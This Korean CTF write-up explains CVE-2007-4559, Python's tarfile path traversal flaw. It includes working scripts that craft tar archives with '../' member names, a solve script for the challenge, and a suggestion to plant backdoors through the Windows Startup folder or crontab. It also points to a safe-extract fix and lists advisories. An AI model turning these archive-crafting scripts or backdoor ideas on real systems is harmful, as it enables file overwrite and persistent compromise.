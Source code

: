 # python_tar

CVE-2007-4559 취약점을 활용하는 문제이다.

```python
import tarfile
 def change_name(tarinfo):
    tarinfo.name = "../b/" + tarinfo.name
    return tarinfo
 with tarfile.open("test.tar", "w:xz") as tar:
    tar.add("test.txt", filter=change_name)
```

위와 같이 tar 내부에 존재하는 이름을 수정한 tar 파일을 만들고

```python
import tarfile
 with tarfile.open("test.tar", "r") as tar:
    tar.extractall()
```

해당 파일을 extract하면 그 경로로 압축 해제된다.

만약 최고 권한으로 실행되어 있다면 윈도우는 `C:\Users\사용자 계정\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 경로에 압축을 풀어서 백도어를 심을 수 있고, 리눅스에서는 `crontab` 파일을 덮어서 백도어로 활용할 수 있겠다.

```
hyuunnn@hyuunnn:/mnt/c/Users/hyuunnnn/Desktop/cve-2007-4559/a$ tar -xvf test.tar
tar: Removing leading `../' from member names
tar: ../b/test.txt: Member name contains '..'
tar: Exiting with failure status due to previous errors
```

tar 명령어의 문제가 아닌 `tarfile` 라이브러리의 문제임을 확인할 수 있다.

https://github.com/microsoft/GRTr/pull/7/files - `safe_extract` 함수를 보면 `tar.getmembers()`를 사용하여 루프 돌면서 경로가 맞는지 확인한다.

## 문제 풀이

1. 문제 파일로 주어진 `run.py` 코드를 분석
2. `flag.txt` 파일을 만들어서 위 코드에서 요구하는 문자로 저장
3. `make_tar.py`를 실행하여 tar 파일 생성

```python
## make_tar.py
import tarfile

def change_name(tarinfo):
    tarinfo.name = "../../../../../../tmp/" + tarinfo.name
    return tarinfo

with tarfile.open("test.tar", "w:xz") as tar:
    tar.add("flag.txt", filter=change_name)
```

4. 생성된 tar 파일을 웹 서버에 업로드하면 `FLAG`가 출력된다.

## 관련 자료

https://www.bleepingcomputer.com/news/security/unpatched-15-year-old-python-bug-allows-code-execution-in-350k-projects/

https://discuss.python.org/t/policies-for-tarfile-extractall-a-k-a-fixing-cve-2007-4559/23149

https://github.com/python/cpython/issues/45385

https://www.trellix.com/en-us/about/newsroom/stories/research/the-bug-report-september-2022-edition.html#CVE-2007-4559

https://www.trellix.com/en-us/about/newsroom/stories/research/limiting-the-software-supply-chain-attack-surface.html

https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html

https://www.cwn.kr/news/articleView.html?idxno=12545

https://github.com/advanced-threat-research/Creosote

https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall

https://www.theregister.com/2022/09/22/python_vulnerability_tarfile/

https://github.com/microsoft/GRTr/pull/7/files https://github.com/tensorflow/privacy/pull/344/files
